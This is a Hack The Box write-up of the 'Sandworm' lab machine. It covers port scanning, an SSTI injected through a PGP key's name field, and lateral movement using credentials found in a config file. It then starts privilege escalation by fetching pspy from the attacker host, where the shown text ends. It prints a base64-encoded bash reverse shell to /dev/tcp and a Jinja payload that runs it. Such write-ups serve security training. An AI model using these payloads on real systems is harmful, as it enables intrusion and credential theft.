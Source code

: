 ```yaml
---
layout: single
title: Sandworm - Hack The Box
excerpt: "Sandworm is a medium-difficulty machine on the HTB platform. In order to access it, we need to obtain a PGP key to carry out an SSTI (Server-Side Template Injection). We'll need to make some maneuvers between user accounts, and then, to elevate privileges, we'll take advantage of the SUID permissions of firejail."
date: 2023-08-24
classes: wide
header:
  teaser: assets/images/htb-writeup-Sandworm/intro.PNG
  teaser_home_page: true
  icon: assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Firejail
  - PGP
  - SSTI
  - SUID
---
```

![](../assets/images/htb-writeup-Sandworm/sandworm.jpeg)


**RECON**

**PORTS SCAN**

We performed a scan of all possible open ports on the victim machine.

```ruby
❯ sudo nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv 10.10.11.218 -oG allPorts
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-26 13:20 CEST
Initiating SYN Stealth Scan at 13:20
Scanning 10.10.11.218 [65535 ports]
Discovered open port 22/tcp on 10.10.11.218
Discovered open port 80/tcp on 10.10.11.218
Discovered open port 443/tcp on 10.10.11.218
Completed SYN Stealth Scan at 13:20, 11.42s elapsed (65535 total ports)
Nmap scan report for 10.10.11.218
Host is up, received user-set (0.052s latency).
Scanned at 2023-08-26 13:20:15 CEST for 12s
Not shown: 65330 closed tcp ports (reset), 202 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.51 seconds
           Raw packets sent: 66953 (2.946MB) | Rcvd: 65535 (2.621MB)

```

**SERVICE AND VERSION SCAN**

```ruby
❯ sudo nmap -p22,80,443 -sCV 10.10.11.218 -oN target
[sudo] contraseña para anonimo: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-26 13:38 CEST
Nmap scan report for ssa.htb (10.10.11.218)
Host is up (0.050s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Secret Spy Agency | Secret Security Service
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.37 seconds
```

We add the domain to the /etc/hosts file.

At the top of the page, there is a contact button that will redirect us to a form. This form is designed to send an encrypted PGP message. With this, we can check if there's a possibility of performing any kind of command execution.

![](../assets/images/htb-writeup-Sandworm/fotoWeb1.PNG)

If we look at the bottom of the text box, there is a link that redirects us to a guide. This guide involves sending a message using a public key, and the website allows us to practice with its own public key.

![](../assets/images/htb-writeup-Sandworm/fotoWeb2.PNG)

This is the GPG public key provided to us for conducting tests.

![](../assets/images/htb-writeup-Sandworm/fotoWeb3.PNG)

If we take a closer look at the guide, there's a signature verifier that allows us to use our own keys.

![](../assets/images/htb-writeup-Sandworm/fotoWeb4.PNG)

**Exploit with GPG**

What we will do now is generate our GPG key and check if it is vulnerable to STTI.

First, we will start by generating a PGP key on the following [page](https://youritmate.us/pgp/).

![](../assets/images/htb-writeup-Sandworm/fotoWeb5.PNG)

Afterwards, copy the private key on the next [page](http://www.2pih.com/pgp.html), paste the key, and enter the optional password if you set one. Then, input a message that you would like to use.

![](../assets/images/htb-writeup-Sandworm/fotoWeb6.PNG)

It's important to understand that we are conducting this test to assess what we can manipulate and, as we can see, we are able to manipulate the name.

![](../assets/images/htb-writeup-Sandworm/fotoWeb7.PNG)

So, let's check if it's vulnerable to SSTI by changing the "Your name" parameter.

The steps remain the same, we generate a new PGP key with the updated name.

![](../assets/images/htb-writeup-Sandworm/fotoWeb8.PNG)

Perfect! There's an SSTI.

![](../assets/images/htb-writeup-Sandworm/fotoWeb10.PNG)

**Intrusion**

We encode the reverse shell in base64.

```ruby
❯ echo "bash -c 'bash -i >& /dev/tcp/10.10.15.23/4444 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMy80NDQ0IDA+JjEnCg==
```

Now we will change the vulnerable SSTI parameter to the following payload.

```ruby
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMy80NDQ0IDA+JjEnCg==" | base64 -d | bash').read() }}
```
![](../assets/images/htb-writeup-Sandworm/fotoWeb11.PNG)

And if everything has gone well, we have a reverse shell.

```ruby
❯ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.15.23] from (UNKNOWN) [10.10.11.218] 46060
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
atlas@sandworm:/var/www/html/SSA$ 
```

**Privilege escalation**


**Lateral movement (atlas -> silentobserver)**

In the `.config` directory, there are two folders that we can only access since we don't have permissions for firejail.

```ruby
atlas@sandworm:~/.config$ ls  
ls
firejail
httpie
atlas@sandworm:~/.config$ cd firejail   
cd firejail
bash: cd: firejail: Permission denied
```
If we enter the directory `/.config/httpie/sessions/localhost_5000` we can see that there's a file with the `.json` extension containing what appears to be credentials for a user named `silentobserver`.

```ruby
atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ ls
ls
admin.json
atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ cat admin.json
cat admin.json
{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}
```
Now, let's try to see if we can connect via SSH to the user `silentobserver` with the password `quietLiketheWind22`.

```ruby
❯ ssh silentobserver@10.10.11.218
silentobserver@10.10.11.218's password:
silentobserver@sandworm:~$ cat user.txt 
c091c7f4873edcc616a41df602813e21
silentobserver@sandworm:~$ 
```
**Vertical Privilege Escalation**

We deploy pspy to monitor the running tasks.

`❯ python3 -m http.server 80`

```ruby
silentobserver@sandworm:~$ wget 10.10.15.23/pspy64
--2023-08-26 17:33:55--  http://10.10.15.23/pspy64
Connecting to 10.10.15.23:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                  100%[==============================================================================>]   2.96M  3.64MB/s    in 0.8s    

2023-08-26 17:33:56 (3.64 MB/s) - ‘pspy64’ saved [3104768/3104768]

silentobserver@sandworm:~$ chmod +x pspy64

```
